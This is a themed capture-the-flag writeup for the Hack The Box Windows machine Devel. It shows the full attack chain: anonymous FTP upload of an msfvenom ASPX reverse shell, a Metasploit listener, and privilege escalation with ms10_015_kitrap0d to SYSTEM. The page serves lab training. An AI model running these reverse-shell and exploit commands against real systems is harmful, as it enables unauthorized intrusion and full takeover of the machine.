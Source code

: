 # HTB_Devel
This is my writeup for the HTB machine Devel.

🎃 Pumpkin Spice HTB Writeup: Devel Machine 🎃
🌿 Introduction
Welcome to my spooky-themed Hack The Box writeup for the Devel machine! This is a beginner-friendly Windows box that teaches the dangers of default configurations and anonymous FTP access. Grab your pumpkin spice latte ☕ and let’s hack our way to SYSTEM!

📜 Machine Info
Attribute	Details
Name:	Devel
OS:	Windows
Difficulty:	Easy
IP Address:	10.10.10.5
Creator: Lantern
Skills Learned	FTP Misconfig, IIS Exploitation, Windows PrivEsc
(Insert cute pumpkin-themed divider image here 🎃)

🔍 Enumeration
1. Nmap Scan
We start by scanning the machine with Nmap:

```bash
nmap -T4 -A -v 10.10.10.5
```

Findings:

Port 21 (FTP): Microsoft FTP (Anonymous login allowed! 👀)

Port 80 (HTTP): Microsoft IIS 7.5

![1 nmap](https://github.com/user-attachments/assets/7ad31e61-59ef-4586-b32a-eb5f23f638fb)


2. Web Directory Brute-Forcing
Ran Dirbuster but found nothing interesting—so FTP is our way in!

⚡ Exploitation
1. Anonymous FTP Access
Logged in with:

```bash
ftp 10.10.10.5
```

Username: anonymous  
Password: (anything)  
Found files:

lisstart.htm  
welcome.png  

![2 ftp login](https://github.com/user-attachments/assets/a5a7728e-1d4e-4cb9-a507-49e07780a803)


2. Uploading a Reverse Shell
Since FTP allows uploading files, we generate an ASPX reverse shell with msfvenom:

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<YOUR_IP> LPORT=4444 -f aspx > devel.aspx
```
Then, upload it:

ftp> put devel.aspx

3. Triggering the Shell
Set up a Metasploit listener:

```bash
msfconsole  
use multi/handler  
set payload windows/meterpreter/reverse_tcp  
set LHOST <YOUR_IP>  
set LPORT 4444  
exploit
```
 
Visit http://10.10.10.5/devel.aspx to trigger the shell!

Boom! We’re in as IIS APPPOOL\Web.

![3 reverse shell](https://github.com/user-attachments/assets/753ba440-0b6d-425d-ab6c-cec2ec6c4d4c)


🔼 Privilege Escalation
1. Checking System Info
```bash
meterpreter> sysinfo
```
  
(Insert sysinfo output here 📸)

2. Using local_exploit_suggester
```bash
use post/multi/manage/local_exploit_suggester  
set SESSION 1  
run
```

Recommended exploit: ms10_015_kitrap0d

![4 meterpreter](https://github.com/user-attachments/assets/06d37e41-c20d-4275-9543-087c0ee1c8e5)


3. Exploiting for SYSTEM
```bash
use exploit/windows/local/ms10_015_kitrap0d  
set SESSION 1  
set LHOST <YOUR_IP>  
exploit
```
 
Success! Now we’re NT AUTHORITY\SYSTEM!


🏴 Flags Captured!
User Flag
```bash
meterpreter> cat c:\Users\babis\Desktop\user.txt
```

![5 flags](https://github.com/user-attachments/assets/ddf26592-d36b-45f3-a00b-ca713c9cb7ab)


Root Flag
```bash
meterpreter> cat c:\Users\Administrator\Desktop\root.txt
```


🎃 Conclusion & Lessons Learned
Default FTP configurations are dangerous!

Always disable anonymous access if not needed.

Old Windows exploits (like ms10_015_kitrap0d) still work!

Happy Hacking! 🎃🎃🎃🎃




